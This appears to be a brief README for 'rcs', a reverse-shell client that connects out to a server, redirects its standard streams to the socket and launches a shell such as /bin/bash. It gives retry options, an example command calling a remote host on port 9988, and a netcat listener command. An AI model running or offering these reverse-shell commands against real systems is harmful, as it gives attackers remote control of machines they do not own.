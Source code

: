 # rcs
Remote Client Shell

Process ('rcs') starts a conection. If any server responses, the client duplicate STDIN_FILENO, STDOUT_FILENO, and STDERR_FILENO and execve() a new process specified at 'rcs' parameters (maybe '/bin/bash').

'rcs' connection request is able to be retried (parameter) and sleep (parameter) at each connect() fails, waiting the server goes listenning.
 
 
Usage: $ ./rcs <IP> <PORT> <SHELL> <N_RETRY_CONNECT> <RETRY_SECONDS>
  
$ ./rcs sample.noip.com 9988 '/bin/bash' 10 5 2>/dev/null
 
Remote (netcat) usage: nc -nvlp <PORT>
  
nc -nvlp 9988
